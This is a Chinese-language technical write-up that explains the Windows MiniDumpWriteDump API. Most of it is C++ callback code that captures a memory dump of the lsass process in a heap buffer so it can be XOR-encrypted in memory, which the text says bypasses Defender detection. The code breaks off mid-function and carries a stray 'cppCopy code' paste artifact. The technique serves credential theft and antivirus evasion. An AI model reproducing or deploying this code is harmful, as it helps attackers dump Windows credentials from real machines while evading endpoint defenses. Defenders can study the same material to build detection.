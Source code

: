 

### MiniDumpWriteDump

`MiniDumpWriteDump` 是一个 Windows API 函数，此函数在`Dbghelp.dll` 库中定义，可以创建一个指定进程的内存转储文件（通常称为 "minidump" 文件）

以下是 `MiniDumpWriteDump` 函数的原型：

```cpp
cppCopy codeBOOL MiniDumpWriteDump(
  HANDLE hProcess, //一个打开的句柄，指向需要创建内存转储文件的进程
  DWORD ProcessId, //需要创建内存转储文件的进程的进程ID
  HANDLE hFile, //一个打开的句柄，指向用于写入内存转储文件的文件,可置NULL
  MINIDUMP_TYPE DumpType, //一个 MINIDUMP_TYPE 枚举值，指定内存转储文件的类型
  PMINIDUMP_EXCEPTION_INFORMATION ExceptionParam,  //置NULL
  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam, //置NULL
  PMINIDUMP_CALLBACK_INFORMATION CallbackParam  //一个指向 MINIDUMP_CALLBACK_INFORMATION 结构的指针，这个结构包含了一个回调函数和一个用户定义的参数。在内存转储过程中，这个回调函数会被多次调用，可以用于控制转储的过程或修改转储的内容。如果不需要使用回调函数，这个参数可以为 NULL
);
```



### 回调函数加密dump文件

MiniDumpWriteDump函数有一个回调函数, 可以通过`callbackInput->CallbackType`来判断何时回调执行我们自定义的代码段

首先在`loStartCallback`中将status成员设置为`S_FALSE`, 其目的是在开始写入数据时，不会将数据写入磁盘；然后在`IoWriteAllCallback`中将status成员设置为`S_OK`, 其目的是在每次写入数据时，将其写入到申请的堆内存中, 这样方便后续的xor加密操作

这种数据的加密是在内存中执行的，而不是在文件中执行，因此能够绕过Defender的检测

```cpp
BOOL CALLBACK minidumpCallback(
    __in     PVOID callbackParam,
    __in     const PMINIDUMP_CALLBACK_INPUT callbackInput,
    __inout  PMINIDUMP_CALLBACK_OUTPUT callbackOutput
)
{
    LPVOID destination = 0, source = 0;
    DWORD bufferSize = 0;

    switch (callbackInput->CallbackType)
    {
    case IoStartCallback:
        // 在开始写入数据时，设置 Status 为 S_FALSE，这可能会取消默认的写入操作
        callbackOutput->Status = S_FALSE;
        break;

    case IoWriteAllCallback:
        // 在每次写入数据时，将数据保存到预先分配的内存区域

        // 设置 Status 为 S_OK，这可能会取消默认的写入操作
        callbackOutput->Status = S_OK;

        // source 指向一块刚刚从 lsass 进程读取的内存数据，这块数据将会被写入到内存转储文件中
        source = callbackInput->Io.Buffer;

        // destination 是我们想要保存这部分数据的位置，计算方法是 dumpBuffer 的开始地址加上这块数据在内存转储文件中的偏移量
        destination = (LPVOID)((DWORD_PTR)buffer + (DWORD_PTR)callbackInput->Io.Offset);

        // bufferSize 是刚刚读取的内存数据的大小
        bufferSize = callbackInput->Io.BufferBytes;

        // 将内存数据从 source 复制到 destination
        RtlCopyMemory(destination, source, bufferSize);

        break;
```